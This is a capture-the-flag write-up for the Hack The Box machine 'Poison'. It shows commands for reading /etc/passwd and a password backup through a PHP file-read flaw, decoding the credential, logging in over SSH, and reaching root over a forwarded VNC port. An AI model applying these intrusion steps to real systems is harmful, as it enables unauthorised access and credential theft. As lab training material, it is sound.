






# Poison - Medium

Target IP: **10.129.1.254**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.1.254 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.29 and PHP 5.6.32.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Let's navigate to the website.

This seems like a site that runs ```.php``` files and returns the output.



Indeed, when we input ```phpinfo.php```, we get the output of ```phpinfo()``` and check the configurations. It seems like there are no disabled functions.



```listfiles.php``` seems interesting. When we submit it on the page, we see an unusual file, ```pwdbackup.txt```.



When we input that filename on the site, we get the output.



It seems like it is base64 encoded, and it tells us it has been encoded at least 13 times.

We can save the string on a file, then write a script that base64 decodes this 13 times.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ pwd=$(cat pwd); for i in $(seq 1 13); do pwd=$(echo $pwd | tr -d ' ' | base64 -d); done; echo $pwd
Charix!2#4%6&8(0
```

We have a password.

Since we got the output of a file that wasn't explicitly listed, I'm thinking that we could read anything that the account that runs underneath has the privileges to read. We can try reading ```/etc/passwd```.

Indeed we can, and we spot a ```charix``` user set with a shell that we are likely looking to get access to.

 

Logging in with the password we found as ```charix``` works.

```
charix@Poison:~ % whoami
charix
```

We can proceed to get the user flag from here.

## Root Flag

There is a ```secret.zip``` file, but it tells us that we need a password to unzip this file.

```
charix@Poison:~ % unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

We can try the password that we already have. I was having trouble inputting the password on the remote machine, so I transferred it over to the attack box. It works.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
```

The file itself seems to just be some binary data.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ cat secret | hexdump -C
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
00000008
```

Checking listening ports on the remote machine gives us ports 5801 and 5901 only exposed on localhost.

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.129.1.254.22        10.10.15.194.58090     ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Looking online, these are ports for remote desktop sessions on VNC.

We can see the command being ran as ```root```.

```
charix@Poison:~ % ps aux | grep vnc
root    608  0.0  0.9  23620  8940 v0- I    03:23     0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xautho
```

It's using something to authenticate incoming connections, so that gives me the impression that the random ```secret``` file we got is what we can use to authenticate with the client.

Since it's remote desktop with a GUI, connecting from our ssh connection is futile.

```
charix@Poison:~ % telnet localhost 5901
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
RFB 003.008
ls
```

Let's use dynamic port forwarding, making sure that ```/etc/proxychains.conf``` is configured properly on the correct port.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ ssh -D 1080 charix@10.129.1.254
```

We can now connect to the port 5901 on the remote machine, supplying our password file.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-75hj1t8kz4]─[~]
└──╼ [★]$ proxychains vncviewer -PasswordFile secret 127.0.0.1:5901
```

Soon after, we get ```root```.



We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
